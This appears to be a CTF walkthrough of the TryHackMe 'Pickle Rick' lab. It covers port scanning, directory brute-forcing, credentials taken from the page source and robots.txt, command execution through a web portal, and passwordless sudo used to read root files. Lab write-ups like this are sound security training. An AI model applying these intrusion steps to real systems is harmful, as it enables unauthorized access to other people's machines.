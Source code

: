 # TryHackMe - Pickle Rick Walkthrough
---

## 1. Scanning

First, we start by scanning the target machine to see which ports are open.

```bash
nmap -T4 -sC -sV -A -p- 10.201.75.114
```
**Sample Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```
**Command Breakdown:**
- `-T4`: Set the speed of the scan (faster than default)
- `-sC`: Run default NSE scripts for discovery
- `-sV`: Attempt to determine the version of services
- `-A`: Enable OS detection, version detection, script scanning, and traceroute
- `-p-`: Scan all 65535 TCP ports
- SSH (22) is open → we may need credentials later.
- HTTP (80) is open → a website exists to explore.

---

## 2. Accessing the Website

We launch a browser (Firefox in our case) and type:

```
http://10.201.75.114
```

This loads the main webpage. Inspecting the page source reveals a username:

```
Username: R1ckRul3s
```

We take note of this username to use later for login.

---

## 3. Finding Hidden Directories

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://10.201.75.114 -w /usr/share/dirb/common.txt -x php,sh,txt,cgi,html,css,js,py
```

**Command Breakdown:**
- `-u`: Target URL
- `-w`: Wordlist for brute-forcing directories
- `-x`: File extensions to check

**Sample Output:**
```
/assets          (Status: 301)
/login.php       (Status: 200)
/portal.php      (Status: 200)
/robots.txt      (Status: 200)
```

We see `login.php`, `portal.php`, `assets/`, and `robots.txt`.

---

## 4. Finding the Password

Checking `robots.txt` via browser or curl:

```bash
curl http://10.201.75.114/robots.txt
```

**Output:**
```
Wubbalubbadubdub
```

This is our password. Now we can log in to `login.php` using:

- Username: `R1ckRul3s`
- Password: `Wubbalubbadubdub`

---

## 5. Accessing the Command Portal

Once logged in, we enter the **command portal**, which lets us run commands.

- First, check existing commands (files):

```bash
ls
```

**Output:**
```
Sup3rS3cretPickl3Ingred.txt
clue.txt
```

The first ingredient is in `Sup3rS3cretPickl3Ingred.txt`. Access it via:

```bash
curl http://10.201.75.114/Sup3rS3cretPickl3Ingred.txt
```

**Output:**
```
[First ingredient content]
```

---

## 6. Finding the Second Ingredient

Open `clue.txt` to get hints:

```bash
cat clue.txt
```

Hint mentions the file system → check `/home` directory:

```bash
ls /home
```

**Output:**
```
rick
ubuntu
```

Go into `rick` directory:

```bash
ls /home/rick
```

**Output:**
```
second ingredients
```

`cat` may be disabled, so we use `less` instead:

```bash
less '/home/rick/second ingredients'
```

**Output:**
```
[Second ingredient content]
```

**Explanation of `less`:**
- `less` lets you read files even if other commands (like `cat`) are blocked.
- Scrolls through content interactively without executing anything.
- [less-about](https://en.wikipedia.org/wiki/Less_(Unix))

---

## 7. Finding the Third Ingredient

Check `/root` directory:

```bash
ls /root
```

We do **not** have permission. Use `sudo` to elevate privileges:

```bash
sudo -l
```

**Output:**
```
User R1ckRul3s may run commands as root without password
```

Check contents of `/root`:

```bash
sudo ls /root
```

**Output:**
```
3rd.txt
```

Read the file using `less` with sudo:

```bash
sudo less /root/3rd.txt
```

**Output:**
```
[Third ingredient content]
```

**Explanation of `sudo`:**
- `sudo` allows running commands as the root user.
- `sudo -l` lists allowed commands without needing a password.

---

## 8. Summary of Ingredients

1. `Sup3rS3cretPickl3Ingred.txt` → First ingredient
2. `/home/rick/second ingredients` → Second ingredient
3. `/root/3rd.txt` → Third ingredient

---

# Congrats!
You have completed the Pickle Rick challenge on TryHackMe.
